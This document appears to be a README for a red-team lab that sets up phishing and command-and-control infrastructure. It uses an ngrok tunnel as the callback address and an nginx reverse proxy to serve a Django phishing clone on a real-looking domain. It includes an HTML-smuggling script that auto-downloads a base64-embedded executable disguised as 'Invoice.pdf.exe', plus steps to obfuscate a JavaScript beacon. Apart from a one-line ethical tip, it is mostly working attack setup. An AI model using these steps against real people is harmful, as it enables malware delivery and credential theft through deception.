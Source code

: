 
# 🔐 Red Team Lab: Payload Obfuscation + Ngrok + Custom Domain

## 🚀 Launch with Ngrok
1. Run the tunnel script:
   ```bash
   chmod +x start_with_ngrok.sh
   ./start_with_ngrok.sh
   ```

2. Copy the `https://xxxx.ngrok.io` URL — use it as your phishing or C2 callback address.

---

## 🧪 Add Payloads (JS or HTML Smuggling)

### HTML Smuggler Example
In your `phishing_clone/templates/login.html`, add:

```html
<script>
  let payload = atob("UEsDBBQAAAAIA...");  // base64 of EXE or ISO
  let blob = new Blob([payload], { type: 'application/octet-stream' });
  let a = document.createElement('a');
  a.href = URL.createObjectURL(blob);
  a.download = "Invoice.pdf.exe";
  a.click();
</script>
```

---

## 🔍 Obfuscate JavaScript Payload

Use `obfuscator.io` or:
```bash
npm install -g javascript-obfuscator
javascript-obfuscator beacon.js --output beacon.ob.js
```
Then serve `beacon.ob.js` from `/static/js/`.

---

## 🌐 Custom Domain (e.g., phishing.example.com)

1. Point your domain A record to your VPS IP.
2. Use a reverse proxy:
   - Install Nginx
   - Add config:
     ```
     server {
         listen 80;
         server_name phishing.example.com;
         location / {
             proxy_pass http://127.0.0.1:8000;
         }
     }
     ```
3. Restart nginx and test your domain.

✅ You now serve your Django-based phishing clone or C2 over a real-looking domain.

---

**Ethical Tip:** Only deploy in red team labs or simulations.
